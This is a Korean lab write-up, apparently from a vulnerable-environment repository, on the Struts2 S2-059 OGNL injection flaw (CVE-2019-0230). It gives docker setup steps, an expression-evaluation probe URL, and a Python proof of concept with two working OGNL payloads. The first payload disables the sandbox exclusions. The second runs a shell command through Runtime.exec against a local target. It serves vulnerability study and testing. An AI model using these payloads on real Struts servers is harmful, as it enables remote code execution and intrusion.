







# Struts2 S2-059 원격 코드 실행 취약점 (Remote Code Execution Vulnerablity(CVE-2019-0230))

Apache Struts2 프레임워크는 ID 속성과 같은 특정 태그의 속성 값을 2차적으로 분석하므로 공격자가 태그 속성을 나타낼 때 다시 분석될 OGNL 표현을 전달하여 OGNL 표현을 주입할 수 있습니다.이로 인해 코드가 원격으로 실행될 수 있습니다.

Affected Version: Struts 2.0.0 - Struts 2.5.20

참고자료:

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 설정

Start the Struts 2.5.16 환경:

```
docker compose up -d
```


환경 설정 후, `http://{나의 ip주소}:8080/?id=1`에 가보면 Struts2 test page를 볼 수 있다.


## Exploit

`http://{나의 ip주소}:8080/?id=%25%7B233*233%7D`에 방문해보면 id 속성에서 233*233 결과과 반환된 것을 확인 가능
즉, 이 표현식을 사용한 주요 목적은 Struts2이 사용자 제공 입력을 OGNL 표현식으로 해석하고 실행하는지 여부를 확인하는 것. 만약 사용자가 제공한 입력 값인 233*233이 평가되어서 결과 값인 54289로 반환된다면, 애플리케이션은 OGNL 표현식 주입 취약점이 있음을 알 수 있음.
변경 확인 방법은 개발자 도구를 통해 확인 가능






[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)(참고 자료)를 통해 Struts 2.5.16.의 OGNL sandbox bypass의 세부사항을 알 수 있습니다.


## 취약점 증명용 간단한 파이썬 POC


```python
import requests  # requests 모듈을 불러옴

url = "http://127.0.0.1:8080"  # 대상 웹 서버의 URL

# 첫 번째 공격 payload
# Struts2의 OGNL 표현식을 이용하여 웹 어플리케이션의 보안 설정을 바꾸려고 시도.
# 특히, 실행될 클래스와 패키지의 제한을 제거하려고 시도.
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}

# 두 번째 공격 payload
# 첫 번째 payload에서의 보안 설정 변경 후, 서버 내에서 외부 명령을 실행하려고 시도.
# 'touch /tmp/successbywhs1hyeongyu' 명령을 사용하여 서버 내 '/tmp' 디렉터리에 파일을 생성.
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/successbywhs1hyeongyu'))}"
}

# 첫 번째 공격 payload를 사용하여 POST 요청을 전송
res1 = requests.post(url, data=data1)

# 결과를 출력하려면 아래의 코드의 주석을 해제
# print(res1.text)

# 두 번째 공격 payload를 사용하여 POST 요청을 전송
res2 = requests.post(url, data=data2)

# 결과를 출력하려면 아래의 코드의 주석을 해제
# print(res2.text)

```


해당 POC를 실행하면 `touch /tmp/successbywhs1hyeongyu`가 실행이 된다.:





